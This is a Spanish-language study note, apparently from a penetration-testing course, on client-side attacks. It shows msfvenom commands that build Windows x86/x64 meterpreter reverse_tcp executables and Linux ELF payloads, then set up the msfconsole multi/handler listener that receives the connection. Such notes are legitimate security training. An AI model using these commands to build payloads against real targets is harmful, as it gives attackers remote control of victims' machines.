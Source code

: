 Un ataque del lado del cliente es un vector de ataque que involucra la ejecución de un payload (carga útil) malicioso en el objetivo que en consecuencia conecta al atacante cuando es ejecutado.
Estos tipos de ataques utilizan varias técnicas de ingeniería social como la creación de documentos malicioso o ejecutables portables (PEs).
Los client-side attacks toman ventaja de la vulnerabilidad humana.


# Msfvenom
Msfvenom es una utilidad de linea de comandos que puede ser utilizada para codificar MSF payloads para varios sistemas operativos como servidores web.
Msfvenom es una combinación de dos utilidades, msfpayload y msfencode.
Podemos utilizar msfvenom para generar payloads maliciosos de meterpreter que pueden ser transferidos al sistema objetivo. Una vez ejecutado, el payload se va a conectar con nuestro handler dándonos acceso remoto al sistema objetivo.

Podemos listar los payloads disponibles en msfvenom con con comando:
	msfvenom --list payloads
![](../../../Images/Pasted%20image%2020240206125209.png)
Para los payloads de meterpreter es necesario especificar correctamente el sistema operativo objetivo (windows, linux, etc) y su arquitectura (32 o 64 bits).

Si quisiera generar un payload para una arquitectura de 32bits lo hago de la siguiente manera:
	msfvenom -a
		El -a es para especificar la arquitectura, por ejemplo si fuera de 32bits seria msfvenom -a x86
	msfvenom -a x86 -p
		El -p es para especificar el payload a utilizar.
	msfvenom -a x86 -p windows/meterpreter/reverse_tcp
		Una vez especificado el payload que queremos ejecutar, debemos especificar la informacion de la maquina atacante.
	msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO
		Una vez que colocamos la informacion de la maquina atacante, debemos especificar el formato del payload, para windows el ejecutable será un .exe esto lo hacemos con un -f (formato).
	msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO -f exe
		Ahora debemos especificar donde queremos colocar ese payload y su nombre. Para ello utilizaremos la redirección ">".
	msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO -f exe > /home/directorio/payloadx32.exe
![](../../../Images/Pasted%20image%2020240206125552.png)
Si quisiera crear básicamente el mismo payload pero para una arquitectura de 64bits seria muy similar al anterior:
	msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PUERTO -f exe > /home/directorio/payloadx64.exe
![](../../../Images/Pasted%20image%2020240206125650.png)

Hay una gran cantidad de formatos disponibles, para listarlos puedo usar el comando:
	msfvenom --list formats
![](../../../Images/Pasted%20image%2020240206125750.png)
Si quisiéramos crear un payload para un sistema linux, podriamos hacerlo con el formato elf.
![](../../../Images/Pasted%20image%2020240206130106.png)
Es de gran ayuda el tab a la hora de autocompletar un comando ya que podemos ir viendo las distintas opciones necesarias.

Cuando utilizamos este tipo de payloads necesitamos un listener que sea adecuado, por lo general el listener que se suele utilizar es el que tenemos disponibles en msfconsole conocido como multihandler.
Para utilizarlo debemos ejecutar en msfconsole
	use multi/handler
![](../../../Images/Pasted%20image%2020240205212541.png)
Una vez que seleccionamos el handler, debemos seleccionar el payload:
![](../../../Images/Pasted%20image%2020240205212643.png)
Y sus opciones:
![](../../../Images/Pasted%20image%2020240205212710.png)

